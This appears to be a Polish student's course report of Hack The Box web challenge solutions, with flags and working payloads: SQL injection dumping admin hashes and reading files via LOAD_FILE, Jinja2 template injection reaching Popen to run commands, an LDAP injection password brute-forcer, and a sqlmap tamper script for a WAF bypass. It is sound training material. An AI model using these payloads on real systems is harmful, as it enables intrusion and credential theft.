






<center style="fontSize:'40px'">
## 1. [Projekt] Zadanie 1
**Przedmiot:** Podstawy Bezpieczeństwa Oprogramowania
**Prowadzący:** dr inż. Ostap Hubert
**Autor:** Konopka Michał WCY18IJ4S1
</center>

<div style="page-break-after: always"></div>

## 2. Zadania

### 2.1 Zadanie 1
**Nazwa:** Emdee five for life
**Punkty:** 20
**Flaga** HTB{N1c3_ScrIpt1nG_B0i!}
1. Na wejściu otrzymujemy losowy łańcuch znaków
2. Mamy zadanie go zahashować, funkcją hashującą MD5, gdy robimy to z wykorzystaniem narzędzia online, to w odpowiedzi znajdujemy wskazówkę: `Too slow`
3. W dev-tools zakładka network, aby prześledzić requesty:
     * Do generowania losowego string'a `GET http://188.166.168.204:31661/`
     * Do wysyłania zahashowanego string'a `POST http://188.166.168.204:31661/`
4. Napisałem skrypt (nodejs), który miał byc za zadanie szybszy ode mnie :
```javascript
const Axios = require('axios').default;
const cheerio = require('cheerio');
const md5 = require('md5');
const fetch = require('node-fetch');

(async () => {
    const axios = Axios.create(); 
    const url = 'http://188.166.168.204:31661/';
    const responseGet = (await axios.get(url));
    const html = responseGet.data;
    const cookie = responseGet.headers['set-cookie'][0];
    const $ = cheerio.load(html);
    const value = $('h3')[0].children[0].data;

    fetch("http://188.166.168.204:31661/", {
        "headers": {
          "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
          "accept-language": "pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7",
          "cache-control": "max-age=0",
          "content-type": "application/x-www-form-urlencoded",
          "sec-gpc": "1",
          "upgrade-insecure-requests": "1",
          "cookie": cookie.split(';')[0]
        },
        "referrer": "http://188.166.168.204:31661/",
        "referrerPolicy": "strict-origin-when-cross-origin",
        "body": `hash=${md5(value)}`,
        "method": "POST",
        "mode": "cors"
      }).then(r => r.text()).then(console.log);
})();
```
*Skrypt najpierw odpytuję stronę, w odpowiedzi dostaję html z którego odczytuję znaki do zahashowania, w odpowiedzi otrzymuję również ciasteczko sesji które następnie przekazywane jest przy następnym zapytaniu. Ostatnie zapytanie POST, zostało wygenerowane z DevTools, opcją copy as: Node-Fetch*
5. Rezultat 

<div style="page-break-after: always"></div>

### 2.2 Zadanie 2
**Nazwa:** Freelancer
**Punkty:** 30
**Flaga** HTB{s4ff_3_1_w33b_fr4__l33nc_3}
1. Na wejściu otrzymujemy stronę internetową free lancera
2. Na początku zwróciłem uwagę na formularz do kontaktu znajdujący się na dolę strony, próbowałem tam się wstrzyknąć za pomocą sql injection, ale nie zależnie od przekazywanych danych zawsze otrzymałem status odpowiedzi 500.
3. Przyglądając się HTML'owi udało mi się znaleźć, ciekawy link: `/portfolio?id=1`, wykorzystując narzędzie Burp -> Intruder (id: 1..50), a następnie Comparer wykryłem, że dla pierwszych id znajdują się jakaś treść, a w pozostałych brak. Ta treść to takie lorem ipsum, ale zapewne zaciągane z bazy danych. Co nasunęło mi ponownie pomysł z sql injection tym razem w kontekście zapytania `/portfolio?id=--sql`
4. Spróbowałem takiego zapytania: `/portfolio?id=1%20OR%201%3d1%20--`, i zostały wpisane 3 opisy w opowiedź, czyli wiem, że podatność to **SQL INJECTION**, teraz trzeba tylko znaleźć flagę :)
5. Dzięki zapytaniu: `1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.tables` udaję się uzyskać listę wszystkich tabel, interesująca się wydaje o nazwie `safeadmin`, dodatkowo wiem że serwer bazy danych to MYSQL
6. Tak poznałem listę kolumn `1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns`
7. Pozyskanie loginu i hasła admina: `1 AND 1=2 UNION SELECT 1,username,password FROM safeadmin`
   1. Password: `$2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K`
   2. username: `safeadm`
8. Uruchomiłem John The Ripper w celu złamania hasła(bruteforce), ale ponieważ ten proces trwa, i w sumie nie wiem gdzie mógłbym użyć, tego hasła, postanowiłem przeskanować strukturę katalogów, z początku chciałem użyć do tego Burp, ale przez to że korzystam z wersji community jest on bardzo wolny. Wypróbowałem narzędzie DirBuster które jest setki razy szybsze, udało mi się dzięki temu znaleźć stronę: `administrat/index.php` do której jest możliwość zalogowania się.
9. Doczytałem, w `Bezpieczeństwo aplikacji webowych`, że jest możliwość odczytu plików za pomocą sql w przypadku bazy MySQL, a więc wykorzystałem tą podatność najpierw do odczytania pliku, `administrat/index.php` a następnie jego kod wskazał mi plik `administrat/panel.php` w którym znajdowała się flaga. Użyte query do odczytania pliku: `1 AND 1=2 UNION SELECT 1,LOAD_FILE('/var/www/html/administrat/panel.php'),password FROM safeadmin`
10. Rezultat: 

<div style="page-break-after: always"></div>
*Uwaga screeny od tego miejsca będą się różnic, ponieważ musiałem oddać mój komputer na gwarancje, i korzystam z zastępczego.*

### 2.3 Zadanie 3
**Nazwa:** Templated
**Punkty:** 20 
**Flaga** HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
1. Wchodzę na stronę i jedyna sensowna treść jak się ukazuję to: `Proudly powered by Flask/Jinja2`
2. Wipsuję w wyszukiwarke: `hack Flask/Jinja2`, znajduję taki artykuł https://blog.nvisium.com/p263
3. `Jinja2` to silnik templatek, który możeby być podatny na tak zwane ataki `Server-Side Template Injections`, czyli wstrzykiwanie złośliwego kodu do silników renderujących najcześciej strony html.
4. Sprawdzam czy są gdzieś na stronie wyświetlane dane przekazane prze użytkownika. Są wystarczy wpisać: `http://188.166.168.204:31061/page` i w odpowiedzi dostajemy `The page page could not be found`, a więc możemy w to miejśce próbować wstrzyknąć jakiś złośliwy kod.
5. Aby wykonać kod wewnątrz templatu należy umieścić go w: `{{ ... }}`
6. Z wyżej wskazanego poradnika dowiaduję się, że w kontekście templatu jest dostępny obiekt o nazwie `request`
7. Pobieram kod żródłowy flaska(https://github.com/pallets/flask.git), aby odnaleźć tam `request` i zobaczyć z czego się składa, okazuję się, że flask jest wraperem wokół `werkzeug` i to w jego kodzie znaujduję klasa `request` https://github.com/pallets/werkzeug/blob/master/src/werkzeug/wrappers/request.py , ale nic mi sie narazie nie rzuca w oczy
8. Chciałbym odczytać pliki serwera bo pewnie gdzieś tam jest zakodowana flaga, w konsoli pythona (lokalnie) wykonuje takie polecenie `>>> __builtins__.__import__('os')`, które pozwala mi uzyskać dostęp do modułu `os` który z koleji pozwoliłby mi dostać się do wszystkich plików, lecz wstrzykiwane nie wykonuję się poprawnie.
9. Natknałem się na następny opis tej podatnośći, `https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee`, opisany tam exploit polega na przeszukaniu drzewa klas w pythonie i dostania się w ten sposób do takiej która umożliwi nam egzekucje kodu. Wykorzystane są do tego wbudowane metody pythona `__mro__` - do wyświetlenia wszystkich klas (jest to kolejność w jakiej są ładowane klasy, dlatego powinniśmy wywołać ją na jakieś nisko pzoiomowej klasie jak `object`)
10. Następnie w drzewie klas otrzymanych poleceniem `1.__class__.__mro__[1].__subclasses__()` (wszystkie klasy dziedziczące po klasie `object` w tym projekcie), należało znaleźć klasę która umożliwi odczyt plików, ctrl+f i widać ze istnieje klasa `Popen` która służy do otwierania podprocesów, ma indeks [414] (zgadnięty drogą prób i błędów)
11. Wylistowanie istniejących plików: `1.__class__.__mro__[1].__subclasses__()[414](["ls","-la"],stdout=-1).communicate()`, w outpucie widać plik flag.txt :)
12. Odczytanie flagi (plik flag.txt): `1.__class__.__mro__[1].__subclasses__()[414](["cat","flag.txt"],stdout=-1).communicate()`
13. Rezultat: 

<div style="page-break-after: always"></div>

### 2.4 Zadanie 4
**Nazwa:** baby ninja jinja
**Punkty:** 30 
**Flaga** HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}
1. Wchodze na stronę zwracam uwagę na nagłówek `Server: Werkzeug/1.0.1 Python/2.7.17`, który wskazuję, że mamy ponownie do czynienia z flaskiem. A tytuł `baby ninja jinja` może sugerować, że mamy znowu do czynienia z atakami z kategori `SSTI`.
2. Próbuję zastosować, w jednymy dostępnym formularzu podstawowe sprawdzenie takie jak: `{{ 2 + 2 }}`, lecz są one nie sktueczne. Ponadto w odpowiedzi nie znajduję żadnych treści które przekazałem, co może świadczyć o tym że przekazane dane nie są wgl porcesowane.
3. Przeglądając kod HTML głównej strony napotkałem na komentarz `<!-- /debug -->`, przechodzę pod adres `http://206.189.121.131:32117/debug` i w odpowiedzi otrzymuję kod źródłowy serwera.
4. Analiza kodu:
   1. Znaczniki pozwalające osadzić kod(`{{}}`) są wycinane: ```db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )```
    2. Widzimy również, aby server zwrócił templatkę o nazwie report musimy posiadać klucz `leader` w sesji - ```report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report```
    3. Trzecie sporzetrzeżenie to możliwy, brak zabezpieczenia przed SqlInjection.
5. Aby ustawić sesję trzeba ustawić nagłówek `Cookie: ...`, ale trzeba go również odpowiednio zaszyfrować, szyfr generowany jest losowo `os.urandom(120)`, a więc go nie zgadniemy :(, pozostaje nam ustawienie sesji po stronie serwer, czyli wykonanie kod zdalnie
6. W [dokumentacji](https://jinja.palletsprojects.com/en/2.11.x/templates/#whitespace-control) Jinja znalazłem sposób  w jaki można wykonać kod bez użycią `{{`, dyrektywa `if` ma tylko jeden taki blok :) - `yay`
7. Próbowałem wykonać przykładowe kod i okazało się, że aplikacja jest w `debug mode`, przez co wyświetlac się stack trace, jeśli coś pójdzie nie tak. Dostępny jest również dostęp do konsoli python'a z poziomu stack-tracu, lecz trzeba znać pina. Po szybkim przeszukaniu internetu nie znalazłem żadnego prostego sposobu na znalezienie takiego pinu. Konsola znajduję sie równiez pod `/console`.
8. Idąc tropem SSTI udało mi się skontruować takie query: `?leader=leader&name=yay` - jego działanie to: `session['leader']=1`, przez co w odpowiedzi otrzumujemy template `report`
9. Dzięki temu w odpowiedzi z serwera znajdowało się już odopowiednio zakodowane ciasteczko: `eyJsZWFkZXIiOjF9.YGCGJA.yDwEUWkJuEkcipxY5wl6p3EE3zI`, którego będę mógł od tej pory używać
10. Postanowiłem pójść inną drogą ponieważ, nie mogłem znaleźć sposóbu na wyświetlanie danych. Postanowiłem je przekazywac w ciasteczku `session`. Mogę dowolonie modyfikować zawrtość tej sesji. Znalazłem pakiet o nazwie `flask-unsign`, który umozliwia dekdowanie ciasteczek
11. Napisałem prosty skrypt którym pozwoli mi zlokalizowac Klasę `Popen`, która wykorzytam jak w zadaniu 2.3
```python
URL="http://178.62.54.33:31649/"
session = requests.session()
for i in range(0,300):
    print(i)
    response = session.get(URL + "?leader=leader&name=yay")
    print(str(i) + " : " + response.text[-70:-1])
    if "Popen" in response.text[-70:-1]:
        print("!!!!!!!!!!!!!!!!" + str(i))     
    time.sleep(0.7)
    # wynik: 258
```
12. Wylistowanie plików: `?command=ls&leader=leader&name=yay`, rezultat:
```bash
app.py
flag_P54ed
schema.sql
static
templates
```
13. Przejrzenie pliku flag_P54ed `"?command=cat&arg=flag_P54ed&leader=leader&name=yay"`
14. Ostateczny skrypt:
```python
import flask_unsign
import requests
import time
URL="http://178.62.54.33:31649/"
session = requests.session()
response = session.get(URL + "?command=cat&arg=flag_P54ed&leader=leader&name=yay")
payload = session.cookies.get_dict()['session']
decoded = flask_unsign.decode(payload)['leader'][0].decode("utf-8")
print(decoded)
```
15. Na koniec jeszcze wpadłem na pomysł, że mogłem wyświetlać dane, wywołując wyjątki których treścią byłaby treść która chciałbym przekazać z serwera.
16. Rezultat: 

<div style="page-break-after: always"></div>

### 2.5 Zadanie 5
**Nazwa:** Phonebook
**Punkty:** 30 
**Flaga:** HTB{d1rectory_h4xx0r_is_k00l} 
1. Po wejściu na strone, przekierowuję nas do `/login`, gdzie ukazuję się strona logowania, widnieje również komunikat który jest podpisany nickiem: `Reese`
2. Po analizie nagłówków widać, że załączane jest cisteczko sesji, co może się okazaćprzdydatne w późniejszym etapie. Analizując kod strony widzimy również, że przkazywany może być parameter URL o kluczu `message`.
3. Niestety nie udało mi się odnaleźć żadnego źródła pomocna dopiero okazała się wskazówka kolegi który powiedział, że chodzi LDAP. Po wpisaniu LDAP podatności w internet czytam artykuł: https://sekurak.pl/podatnosc-ldap-injection-definicje-przyklady-ataku-metody-ochrony/, opisuję on podatność typu `LDAP Injection` bardzo przypominającą, `SQL Injection`
4. Wpisując `*` w pole username i password, udaje się przejść na nstępną stronę, gdzie mamy dostęp do wyszukiwarki, w której niestety nie działa wildcard, ale po wpisaniu użytjkownika `Reese` otrzymujemy informację o nim - `{cn: "Kyle", homePhone: "555-1234567", mail: "reese@skynet.com", sn: "Reese"}`
5. W artykule istnieję jeszcze opis techniki zwanej `Booleanization` która na podstawie prostych odpowiedzi od serwera typu prawda/fałsz pozwala nam odgadnąć cały ciąg znaków. To jest zamiast wpisywać samą gwiazdkę możemy wpisać `ABC*`, jeżeli `ABC` jest ciągiem początkowym hasła, ekran logowania nas przepuści, a więc idąc tym tropem chciałem sprawdzić czy w haśle użytkownika `Reese` nie znajduje się czasem flaga, skoro wiemy że flaga zawsze zaczyna się od 3 znaków `HTB`, a więc wpisuję użytkownika uzytkownik: `Reese` hasło: `HTB*` i udaje mi się zalogować co oznacza, że flaga to najprowdoboniej hasło użytkownika `Reese`
6. Następny krok to autmatyzacja procesu, w tym celu utworzyłem skrypt w pythonie:
```python
import requests
import string
from time import sleep 

# Mozliwe znaki dla hasla z wykluczeniem * poniewaz to by zawsze przechodzilo
CHARS = list(filter(lambda x: x != '*',[ *string.punctuation ,*string.ascii_letters, "1","2","3","4","5","6","7","8","9","0"]))
# Cel ataku
URL = "http://206.189.121.131:31118/login"
# Nazwa użytnikownika
USERNAME = "Reese"

#Początkowe hasło
password = "HTB" 

# Jeśli wskzane hasło jest poprawne zwracana jest wartość True w innym wypadku false
def guess(password: str) -> bool:
    print("trying password: " + password)
    response = requests.post(URL,allow_redirects=False, data = {"username" : USERNAME, "password": password + "*"})
    if 'Location' not in response.headers:
        return False
    if '/' != response.headers['Location']:
        return False
    return True

# Zgaduj dopoki ostatni znak hasła nie jest równy '}' - znak końca flagi
while password[-1] != '}':
    for char in CHARS:
        sleep(0.1)
        if guess(password + char):
            print("Found: " + char)
            password += char 

print("Password:" + password)
```
7. Rezultat: 
<div style="page-break-after: always"></div>
### 2.6 Zadanie 6
**Nazwa:** WAFWAF
**Punkty:** 40 
**Flaga:** HTB{w4f_w4fing_my_w4y_0utt4_h3r3}
1. Na stronie otrzymujemy kod klasy `db`. 
```php
<?php error_reporting(0);
require 'config.php';

class db extends Connection {
    public function waf($s) {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $obj = $db->waf(file_get_contents('php://input'));
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
} else {
    die(highlight_file(__FILE__, 1));
}
?>
```

* Metoda `waf` jest to filtr majacy na  celu zabezpieczyćstronę przed atakiem `sql injection`. Widzimy że tenfiltr jest skonstruowany dość prosto i zapewne będzię gomożna w jakiś sposób obejść
* Widzimy również, że zwracana odpowiedź musimy miećpostać json'a: `{"user":"<INJECTED SQL>"}`
* Widzimy również dziwną dyrektywę `php://input`, poprzeczytaniu https://www.php.net/manual/en/wrappers.phpphp, okazuję się jednak że jest to poprostu odczyt danychwysłanych za pomocą zapytania typu `POST`
* Wykonywane query `"SELECT note FROM notes WHEREassignee = '%s'"` nasz payloady jest wstrzykiwane w `%s`
2. Snippet funkcji `waf` wklejam do interpretra online co pozwala, na swobodne próbowanie obejścia filtra
   1. Znalazłem informację na temat tego że taki filtry można obchodzić kodowanie naprzykład w przypadku jsona wspieranym formatem jst utf-8, a więc możemy zakodowac payload do tego formatu a następnie go przekazać.
   2. Wynikiem tych działań jest taki skrypt który przechodzi przez fillt, ale nie otrzymuj żadnej zwrotki dlatego musimy użyć cięższego narzędzia jak `sqlmap` który autmatyzuję proces wykrywania i wykorzystania `sql injection`
3. SqlMap, do  sqlmap możemy pisać własne skrypty które przetwarzają dane przed wstrzyknięciem ich przez narzędzie tzw. `tamper scripts` https://lucadidomenico.medium.com/how-to-write-custom-tamper-scripts-for-sqlmap-93927808809e- przykładowy plik i jak go wykrozystać
4. Moj tamper script:
```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    def toUtf8(payload: str): return ''.join(map(lambda s: str(hex(ord(s))), payload)).replace('0x','\\u00')
    
    return toUtf8(tamper)
```
5. Musimy równiez przygotwać zapytanie zgodne z RFC protokołu http, możemy je uzyskać z developer tools: `networking -> request -> view source`
```
POST / HTTP/1.1
Host: 206.189.121.131:30810
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"user":"*"}
```
6. Teraz mozemy urchomić skypt sqlmap: 
1.`sqlmap --tamper=tamper.py -r request.txt  --dbs`Parametr `--dbs` zwróci nam listę dostępnych baz
2. Wywołamy skrypt ponownie dla intersujące nas bazy:    `sqlmap --tamper=tamper.py -r request.txt --D db_m8452      --tables` 
3. dump tabeli: `sqlmap --tamper=tamper.py -r request.txt    -D db_m8452  -T definitely_not_a_flag -dump`
* Wykryta podatnośc prze sqlmap to tzw. `time-base blind`, czyli w momencie gdy nie otrzymujemy od serwera żadnej odpowiedzi, w postaci tekstu lub jsona możemy wstrzymywać pracę serwera na kilka sekunda jeśli podane query jest fałszywe a gdy jest prawdziwe odrazu kończyć. Atak ten przypomina atak typu booleanization ponieważ tutaj też jesteśmy zmuszeni zgadywać "literka po literce", dostajemy jedynie odpowiedz typu prawda fałsz.
9. Rezultat:


<div style="page-break-after: always"></div>

### 2.7 Zadanie 7
**Nazwa:** Weather app
**Punkty:** 30 
**Flaga:** HTB{w3lc0m3_t0_th3_p1p3_dr34m}
1. Ten challengu różni się od pozostałych tym że mamy dostęp do całego kodu serwera
2. Analiza kodu
   1. W pliku `database.js` widzimy podatność typu SQL INJECTION, parametry funkcji `register` nie są filtrowane.
   ```javascript
    let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
    resolve((await this.db.run(query)));
   ```
   2. Idąc tym tropem znajduję controller metody register w pliku `index.js`, lecz sprawdza on pochodzenie żadania czy pochodzi ono od tego właśnie serwera, przez co rejstrować mogą się jedynie użytkownicy
   ```javascript
   router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}
   ```
   3. Analizując kod dalej udaje mi się zlokalizować wywołanie requesta z serwera do api weather app, kontroler znajduję się w pliku `routes/index.js`, za to samo wywołanie w pliku `helpers/WeatherHelper.js`
   ```javascript
    async getWeather(res, endpoint, city, country) {

     // *.openweathermap.org is out of scope
     let apiKey = '10a62430af617a949055a46fa6dec32f';
     let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
   ```
   Niestety zapytanie ma ustawiony na stałe URL oraz metode zapytania, czyli `GET`.
